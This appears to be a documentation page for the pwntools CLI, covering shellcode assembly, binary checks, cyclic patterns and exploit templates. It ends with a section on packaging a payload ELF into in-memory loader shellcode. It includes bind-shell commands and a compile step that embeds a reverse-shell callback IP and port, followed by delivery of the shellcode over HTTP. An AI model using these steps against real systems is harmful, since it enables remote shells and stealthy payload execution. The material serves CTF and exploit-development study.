

<Callout type="info" title="Concept Overview">
**Pwntools** is a CTF framework and exploit development library written in Python. Aside from the Python API, it ships with a powerful set of command-line utilities (`pwn <command>`) designed to accelerate binary exploitation, shellcode generation, and reverse engineering.

**MITRE ATT&CK Mapping:**
* [T1027 - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
* [T1055 - Process Injection](https://attack.mitre.org/techniques/T1055/)
* [T1204.002 - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
</Callout>


---

## Installation

<Callout type="warning" title="Setup">
```bash
# Install the pwntools library and CLI tools
pip3 install pwntools

# To update pwntools later
pwn update
```
</Callout>

---

## Exploit Development Workflow

<Callout type="tip" title="How Pwntools CLI fits into the exploitation lifecycle">

</Callout>

---

## 1. Assembly & Shellcode

<AccordionGroup>
  <Accordion title="`pwn asm` (Assembly to Opcodes)">
    Converts assembly language into raw hex opcodes.
    ```bash
    # Convert inline string
    pwn asm "jmp esp"
    
    # Convert from file
    pwn asm -i <filepath>
    ```
    *Options:* `output type` (raw, hex, string, elf), `context` (16, 32, 64, linux, windows), `avoid bytes` (newlines, nulls, custom list), `encoder` (debug shellcode using gdb run the output).
  </Accordion>

  <Accordion title="`pwn disasm` (Disassemble Opcodes)">
    Converts hex opcodes back into assembly instructions.
    ```bash
    # Disassemble ffe4
    pwn disasm ffe4
    ```
    *Options:* `context` (16, 32, 64, linux, windows), `base address`, `color`/`no color`.
  </Accordion>

  <Accordion title="`pwn shellcraft` (Shellcode Generation)">
    Generates complex shellcode for various architectures.
    ```bash
    # List all available shellcodes
    pwn shellcraft -l
    
    # Search for shellcodes with 'amd' in the name
    pwn shellcraft -l amd
    
    # Create shellcode in hex format
    pwn shellcraft -f hex amd64.linux.sh
    
    # Run shellcode directly to test it (Get a shell)
    pwn shellcraft -r amd64.linux.sh
    
    # Bind shell to port 9095
    pwn shellcraft -r amd64.linux.bindsh 9095
    ```
    *Options:* `shellcode and arguments`, `Out file`, `output format`, `debug` (attach gdb), `before` (debug trap before code), `after`, `avoid using opcodes`, `Run`, `Color/no color`, `list syscalls`, `Generate ELF as a shared library`.
  </Accordion>
</AccordionGroup>

---

## 2. Binary Analysis & Debugging

<AccordionGroup>
  <Accordion title="`pwn checksec` (Security Mitigations)">
    Checks binary security features (NX, ASLR, PIE, Canaries, RELRO).
    ```bash
    pwn checksec <executable>
    ```
  </Accordion>

  <Accordion title="`pwn debug` (Attach GDB)">
    Attaches GDB to a running process or an executable.
    ```bash
    # Attach by executable path
    pwn debug --exec /bin/bash
    
    # Attach by Process ID
    pwn debug --pid 1234
    
    # Attach by process name
    pwn debug --process bash
    ```
    *Options:* `context` (16, 32, 64, linux, windows), `gdbscript` to execute, `sysrootpath`.
  </Accordion>

  <Accordion title="`pwn disablenx` (Disable NX)">
    Patches a binary to disable the NX (No-Execute) bit, turning the stack executable (useful for classic shellcode injection).
    ```bash
    pwn disablenx <filepath>
    ```
  </Accordion>

  <Accordion title="`pwn elfdiff` (Binary Comparison)">
    Prints the differences between two ELF files.
    ```bash
    pwn elfdiff <file1> <file2>
    ```
  </Accordion>
</AccordionGroup>

---

## 3. Data Conversion & Patterns

<AccordionGroup>
  <Accordion title="`pwn cyclic` (Pattern Generator)">
    Generates De Bruijn sequences to find exact buffer overflow offsets.
    ```bash
    # Generate a pattern of 3000 bytes
    pwn cyclic 3000
    
    # Find the offset of a specific value (e.g., 0x61616164 or 'faad')
    pwn cyclic -l faad
    ```
    *Options:* `used alphabet` (lowercase default), `Length of uniq pattern` (default 4), `context` (16, 32, 64), `Take the offset (-l)`.
  </Accordion>

  <Accordion title="Hex / String Conversions & Hexdump">
    ```bash
    # String to Hex
    pwn hex hola  # Get hex of "hola" ascii
    
    # Hex to String
    pwn unhex 686f6c61
    
    # Hexdump a file
    pwn phd <file>
    ```
    *`pwn phd` Options:* `Number of bytes to show`, `Number of bytes per line`, `highlight byte`, `Skip bytes at beginning`.
  </Accordion>
</AccordionGroup>

---

## 4. Exploit Templates

<AccordionGroup>
  <Accordion title="`pwn template` (Python Exploit Skeleton)">
    Generates a boilerplate Python exploit script using the pwntools library.
    ```bash
    pwn template
    ```
    *Options:* Can select `host`, `port`, `user`, `pass`, `path`, and `quiet`.
  </Accordion>
</AccordionGroup>

---

## 5. Advanced: ELF → Raw Shellcode Packaging

<Callout type="warning" title="In-Memory ELF Loader (`loader_append`)">
Pwntools’ `loader_append` can append an ELF to loader shellcode that maps the embedded ELF and transfers execution to it. This is highly useful for controlled memory-loader research (e.g., executing complex C payloads as raw shellcode).
</Callout>

<Steps>
  <Step title="Step 1: Build a static, position-independent payload ELF (musl recommended for portability)">
    ```bash
    musl-gcc -O3 -s -static -o exploit exploit.c \
      -DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
    ```
  </Step>
  <Step title="Step 2: Convert ELF → shellcode with pwntools (`exp2sc.py`)">
    ```python
    from pwn import *
    context.clear(arch='amd64')
    elf = ELF('./exploit')
    sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
    open('sc','wb').write(sc)
    print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
    ```
  </Step>
  <Step title="Step 3: Deliver 'sc' to a memory loader">
    ```bash
    # Deliver 'sc' to a memory loader (e.g., via HTTP[S]) and execute in-process.
    ```
  </Step>
</Steps>

<Callout type="danger" title="Important Notes on `loader_append`">
* `loader_append` embeds the original ELF program into the shellcode and emits a tiny loader that `mmap`s the segments and jumps to the entry point.
* Be explicit about the architecture via `context.clear(arch='…')`. `arm64` is common on Android.
* Keep your payload’s code position-independent and avoid assumptions about process ASLR/NX. Architecture, ABI, executable-memory policy, relocations, and target process constraints still apply.
</Callout>
